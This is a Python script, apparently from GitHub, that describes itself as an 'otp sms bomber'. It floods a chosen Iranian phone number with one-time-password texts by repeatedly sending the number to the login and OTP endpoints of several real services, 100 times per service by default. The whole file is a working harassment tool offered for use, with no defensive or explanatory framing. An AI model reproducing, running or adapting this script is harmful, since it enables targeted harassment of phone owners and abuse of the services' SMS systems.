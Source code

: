 # https://github.com/Aryakanani from argparse import ArgumentParser from urllib3 import PoolManager from json import dumps from time import sleep from re import search def send(cellphone): http = PoolManager() http.request("post", "https://app.myIrancell/api/api-passenger-oauth/v2/otp", headers={'Content-Type': 'application/json'}, body=dumps({"cellphone": f"+98{cellphone}"}).encode()) http.request("post", "https://tap33.me/api/v2/user", headers={'Content-Type': 'application/json'}, body=dumps({"credential": {"phoneNumber": f"0{cellphone}", "role": "PASSENGER"}}).encode()) http.request("post", "https://www.echarge.ir/m/login?length=19", headers={'Content-Type': 'application/json'}, body=dumps({"phoneNumber": f'0{cellphone}'}).encode()) http.request("post", "https://api.myirancell.ir/v5/auth/authenticate", headers={'Content-Type': 'application/json'}, body=dumps({"phone": f'0{cellphone}'}).encode()) http.request("post", "https://shadmessenger12.iranlms.ir/", headers={'Content-Type': 'application/json'}, body=dumps({"phone": f'0{cellphone}'}).encode()) http.request("post", "https://messengerg2c4.iranlms.ir/", headers={'Content-Type': 'application/json'}, body=dumps({"phone": f'+{cellphone}'}).encode()) http.request("post", "https://web.emtiyaz.app/json/login", headers={'Content-Type': 'application/json'}, body=dumps({"phone": f'+98{cellphone}'}).encode()) def spam(args): if (search(r'9\d{9}$', args.cellphone)): for time in range(args.times): print(f"\rSending sms {time+1}/{args.times}", end='') try: send(args.cellphone) except KeyboardInterrupt: exit() sleep(2) print('') else: print("error: invalid cellphone format, format: 9\d{9} e.g. 991****") def main(): parser = ArgumentParser(prog="asmsb", description="otp sms bomber", epilog="By <Arya>") parser.add_argument("cellphone", help="target cellphone: e.g. 902****") parser.add_argument("--times", help="count of SMSs (per service!)", type=int, default=100) spam(parser.parse_args()) if (__name__ == "__main__"): main()

